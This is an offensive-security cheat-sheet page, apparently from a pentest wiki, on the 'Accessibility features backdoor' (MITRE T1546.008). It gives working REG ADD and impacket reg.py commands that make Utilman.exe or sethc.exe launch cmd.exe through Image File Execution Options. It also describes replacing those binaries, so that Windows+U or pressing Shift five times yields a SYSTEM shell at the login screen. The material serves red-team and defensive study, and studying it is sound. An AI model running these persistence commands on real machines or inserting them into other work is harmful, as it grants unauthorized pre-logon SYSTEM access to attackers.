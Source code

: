```yaml
---
description: >-
  MITRE ATT&CK™  Event Triggered Execution - Accessibility Features - Technique
  T1546.008
---
```


# Accessibility features Backdoor

## Theory

The concept here is pretty simple. Windows supports some built in accessibility features like Sticky Keys, Utilman, Narrator, Magnify that are available at pre-logon (at the login screen, either via a physical console or via Remote Desktop). Replacing them by cmd.exe live us with a SYSTEM access at pre-logon.

## Practice

{% tabs %}
{% tab title="Utilman.exe" %}
We can replace the `C:\Windows\System32\Utilman.exe` with a cmd.exe and rename it (utilman.exe). You may need to change utilman.exe owner to yourself first as TrustedIntaller may be giving you a hard time.

An other way is just to edit the [Image File Execution Options](registry/image-file-execution-options.md) registry

```bash
#Windows
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

#Linux (with impacket)
reg.py <USER>:<PASSWORD>@<TARGET> add -keyName "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" -vt REG_SZ -v Debugger -vd "C:\windows\system32\cmd.exe"
```

Know, press `Windows Key`+`U` to spawn an elevated shell
{% endtab %}

{% tab title="Sethc.exe" %}
We can replace the `C:\Windows\System32\sethc.exe` with a cmd.exe and rename it (sethc.exe). You may need to change sethc.exe owner to yourself first as TrustedIntaller may be giving you a hard time.

An other way is just to edit the [Image File Execution Options](registry/image-file-execution-options.md) registry

```bash
#Windows
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

#Linux (with impacket)
reg.py <USER>:<PASSWORD>@<TARGET> add -keyName "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" -vt REG_SZ -v Debugger -vd "C:\windows\system32\cmd.exe"
```

Know, press `Shift Key` 5 time to spawn an elevated shell
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://doublepulsar.com/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6" %}

{% embed url="https://pentestlab.blog/2019/11/13/persistence-accessibility-features/" %}
